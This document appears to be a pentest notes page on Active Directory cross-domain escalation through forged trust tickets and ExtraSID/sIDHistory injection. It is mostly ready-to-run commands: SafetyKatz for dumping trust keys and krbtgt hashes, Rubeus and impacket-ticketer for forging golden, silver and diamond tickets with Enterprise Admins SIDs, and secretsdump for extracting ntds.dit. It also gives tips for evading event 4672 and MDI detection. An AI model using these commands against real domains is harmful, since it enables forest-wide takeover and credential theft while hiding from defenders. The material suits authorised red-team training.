

# Cross-Domain

In Active Directory environments, trust relationships govern access across domain or forest boundaries. Within a single forest, **domains are linked by default through implicit two-way trust**.

A key attribute in these trust-based escalations is `sIDHistory`, which stores the old Security Identifier (SID) when a user account is migrated between domains. While its intended use is to preserve access to legacy resources, it creates an opportunity for privilege escalation under specific conditions, particularly through **Trust Tickets** and **ExtraSID injection**.

## Trust Tickets

**Trust Tickets** exploit the Kerberos trust mechanism between domains. When a user from a child domain requests access to services in a parent domain, a **cross-realm TGT** is issued by the child’s DC. This TGT is **encrypted with a shared trust key** and presented to the parent’s DC, which validates it using the same key. By default, this key—functionally similar to a machine account password—is the NTLM hash of the trust object and rotates every 30 days.

<figure><figcaption></figcaption></figure>

If this NTLM hash is obtained (typically RC4-based), it becomes possible to **forge a cross-realm TGT**. The forged ticket can then include privileged SIDs such as **Enterprise Admins** (`-519`) in the `sIDHistory` field, effectively tricking the parent DC into recognizing the ticket as one issued to a highly privileged user. This enables unauthorized access to services and systems in the parent domain.



Extract the trust key as a DA:


```powershell
.\SafetyKatz.exe "lsadump::trust /patch" "exit"
.\SafetyKatz.exe "lsadump::lsa /patch" "exit"
.\SafetyKatz.exe "lsadump::dcsync /user:dcorp\mcorp$" "exit"
```


Get the parent domain SID:

```powershell
Get-DomainSID -Domain moneycorp.local
```



Forge the inter-realm TGT:


```powershell
.\Rubeus.exe silver /service:krbtgt/<child-domain-FQDN> /rc4:<trust-key> /sid:<child-domain-SID> /sids:<parent-domain-SID>-519 /ldap /user:Administrator /nowrap
```




Request and inject the TGS:


```powershell
# Request and inject the TGS
.\Rubeus.exe asktgs /service:http/mcorp-dc.moneycorp.local /dc:mcorp-dc.moneycorp.local /ptt /ticket:doI...hbA==
```


Access the parent's domain resource:

```powershell
# Access the DC of the parent DC
winrs -r:mcorp-dc.moneycorp.local cmd
```



From Linux hosts:



Execute the Golden Ticket attack including the target SIDs using `ticketer`:


```bash
# Get TGT for the target (trust key RC4 hash)
impacket-ticketer -nthash 12b792603f994d46906474202b20b5d4 -domain-sid S-1-5-21-3056178012-3972705859-491075245 -domain internal.zsm.local -extra-sid S-1-5-21-2734290894-461713716-141835440-519 -spn krbtgt/zsm.local x7331

# Cache the ticket
export KRB5CCNAME=./x7331.ccache
```




Leverage the forged TGT to request a ST and perform a DCSync attack:


```bash
# Get ST using the forged TGT
$ impacket-getST -k -no-pass -debug -spn CIFS/ZPH-SVRDC01.zsm.local zsm.local/tgt@zsm.local -dc-ip 192.168.210.10

# Export ticket to session
$ export KRB5CCNAME=tgt@zsm.local

# Dump ntds.dit using the ST
impacket-secretsdump -k -no-pass -dc-ip 192.168.210.10 tgt@ZPH-SVRDC01.zsm.local -target-ip 192.168.210.10
```




## ExtraSID Injection

An attacker with control over a child domain can abuse the `krbtgt` secret to forge Kerberos tickets that impersonate privileged users in a trusted parent domain. This approach builds upon the logic of cross-domain trust abuse but targets a different step in the Kerberos authentication flow, offering a **more straightforward execution path** **with a bigger impact** as the attack can access any resource on the parent domain's DC.

This method uses the **RC4 hash of the child domain's** `krbtgt` **account** to forge a standard **Golden Ticket**. The critical twist is in **preloading the ticket with high-privilege SIDs from the parent domain**—typically by setting the `sIDHistory` to include the SID of the Enterprise Admins group (`-519`). When this forged TGT is presented to the child DC to request access to a parent domain service, **the resulting inter-realm TGT is generated with the maliciously inserted `sIDHistory` intact**. The parent domain then validates and honors the ticket, effectively granting EA privileges to an attacker-controlled principal.

<figure><figcaption></figcaption></figure>

This approach is particularly advantageous because it targets the step **before** the inter-realm TGT is created. It avoids the need to compromise the trust account itself, relying only on the child domain’s `krbtgt` secret—often easier to obtain. The result is elevated access to the parent domain, including the ability to authenticate to its DCs, which normally disallows logons from users in child domains.


**OPSEC**: The Diamond ticket is the most OPSEC-friendly option.




Execute the Golden Ticket attack including the target SIDs using Rubeus or SafetyKatz:


```powershell
# Execute the GT attack including the target SIDs using SafetyKatz
.\SafetyKatz.exe "kerberos::golden /user:administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-519 /krbtgt:4e9815869d2090ccfca61c1fe0d23986 /ptt" "exit"

# Execute the GT attack including the target SIDs using Rubeus
.\Rubeus.exe evasive-golden /user:administrator /id:500 /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-519 /aes256:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /netbios:dcorp /ptt
```


Access the parent domain's DC:

```powershell
# Access the parent domain's DC
winrs -r:mcorp-dc cmd
```



However, when an Administrator from the child domain logs in interactively to the forest root DC, it generates alerts (event ID 4672), alerting on **high-privilege logons from unexpected accounts**. Instead of impersonating an administrator directly, the forged ticket can represent the **machine account of the child domain’s DC**, combined with SIDs for DCs (`-516`) and Enterprise DCs (`S-1-5-9`). This simulates **legitimate replication behavior between domains and bypasses interactive logon restrictions**. Because it mimics legitimate DC-to-DC replication, this variant often evades detections—even those from advanced defenders like MDI.


```powershell
# The GT attack using the machine account using SafetyKatz
.\SafetyKatz.exe "kerberos::golden /user:dcorp-dc$ /id:1000 /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-516,s-1-5-9 /krbtgt:4e9815869d2090ccfca61c1fe0d23986 /ptt" "exit"

# The GT attack using the machine account using Rubeus
.\Rubeus.exe golden /aes256:<krbtgt-aes256key> /user:dcorp-dc$ /id:1000 /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-516,s-1-5-9 /dc:dcorp-dc.dollarcorp.moneycorp.local /ptt

# Peform a DCSync to extract the forest root's krbtgt credentials
.\SafetyKatz.exe "lsadump::dcsync /user:mcorp\krbtgt /domain:moneycorp.local" "exit"
```




For improved OPSEC, [Diamond Tickets](../persistence/diamond-ticket.md) can be used in place of traditional Golden Tickets. Diamond Tickets **resemble legitimate Kerberos requests and include a corresponding TGT request**, making them less suspicious.


```powershell
.\Rubeus.exe diamond /krbkey:<krbtgt-aes256key> /tgtdeleg /enctype:aes /ticketuser:dcorp-dc$ /domain:dollarcorp.moneycorp.local /dc:dcorp-dc.dollarcorp.moneycorp.local /tickeruserid:1000 /sids:S-1-5-21-335606122-960912869-3279953914-516,s-1-5-9 /createnetonly:c:\windows\system32\cmd.exe /show /ptt
```




From Linux hosts:



Execute the Golden Ticket attack including the target SIDs using `ticketer`:


```bash
# Get TGT for the target (krbtgt hash of the child domain)
impacket-ticketer -nthash 0540fe51ddd618f42a66ef059ac36441 -domain-sid S-1-5-21-3056178012-3972705859-491075245 -domain internal.zsm.local -extra-sid S-1-5-21-2734290894-461713716-141835440-519 -spn krbtgt/zsm.local x7331

# Cache the ticket
export KRB5CCNAME=./x7331.ccache
```




Leverage the forged TGT to request a ST and perform a DCSync attack:


```bash
# Get ST using the forged TGT
$ impacket-getST -k -no-pass -debug -spn CIFS/ZPH-SVRDC01.zsm.local zsm.local/tgt@zsm.local -dc-ip 192.168.210.10

# Export ticket to session
$ export KRB5CCNAME=tgt@zsm.local

# Dump ntds.dit using the ST
impacket-secretsdump -k -no-pass -dc-ip 192.168.210.10 tgt@ZPH-SVRDC01.zsm.local -target-ip 192.168.210.10
```



